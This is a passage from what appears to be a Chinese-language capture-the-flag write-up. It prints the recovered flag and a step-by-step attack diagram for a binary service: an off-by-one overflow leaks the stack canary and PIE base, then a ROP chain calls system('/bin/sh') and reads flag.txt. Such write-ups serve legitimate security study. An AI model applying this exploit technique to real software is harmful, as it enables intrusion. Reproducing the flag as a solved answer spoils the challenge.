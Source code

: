 \documentclass[10pt,a4paper]{article}
\begin{document}
\textbf{真實
flag：\texttt{sun\{\allowbreak{}the\_\allowbreak{}future\_\allowbreak{}is\_\allowbreak{}now\_\allowbreak{}today\_\allowbreak{}well\_\allowbreak{}wait\_\allowbreak{}how\_\allowbreak{}are\_\allowbreak{}you\_\allowbreak{}reading\_\allowbreak{}this\}\allowbreak{}}}
（遠端 flag 就在工作目錄的 \texttt{flag.\allowbreak{}txt}，權限
\texttt{-\allowbreak{}rw-\allowbreak{}r-\allowbreak{}\/\allowbreak{}-\allowbreak{}\/\allowbreak{}-\allowbreak{}\/\allowbreak{}-\allowbreak{}\/\allowbreak{}-\allowbreak{}\ \allowbreak{}homemaker:\allowbreak{}homemaker}，而 shell 的身分就是
\texttt{homemaker}。）

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{10.
完整攻擊流程圖}\label{ux5b8cux6574ux653bux64caux6d41ux7a0bux5716}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
(1) AUTH   ─ opcode1 + "13 37 c3 5f"
                 │  capacity = 0x100
                 ▼
(2) APPEND#1 ─ L=0x101（CRC 強制 =0xff）
                 │  寫 0x101 bytes → state[0x100] = 0xff
                 │  capacity: 0x0100 → 0x01ff   ✶ off-by-one
                 ▼
(3) SEND STATE ─ send_frame(0, state, 0x1ff)
                 │  洩漏 state[0..0x1fe]
                 ├─ state[0x108] = stack canary
                 ├─ state[0x110] = saved rbp（判斷 16-byte 對齊）
                 └─ state[0x118] = PIE + 0x1a9f  →  PIE_base = 值 - 0x1a9f
                 ▼
(4) APPEND#2 ─ L=0x200（n=0x1ff ≤ capacity 0x1ff）
                 │  寫 0x200 bytes：
                 │  state[0x108] = canary（原樣寫回，否則 __stack_chk_fail）
                 │  state[0x110] = saved rbp（原值）
                 │  state[0x118] = ret                    ← 劫持
                 │  state[0x120] = pop rdi; ret / "/bin/sh" / system@plt
                 └  .bss:0x4a54 = "/bin/sh\0"
                 ▼
(5) EJECT  ─ 離開迴圈 → 0x1865 epilogue 金絲雀檢查通過 → leave; ret
                 ▼
            ROP: ret（對齊）→ pop rdi; ret → "/bin/sh" → system@plt
                 ▼
              /bin/sh（繼承 socket 的 stdin/stdout）
                 ▼
            cat flag.txt → sun{...}
\end{Verbatim}
\end{document}
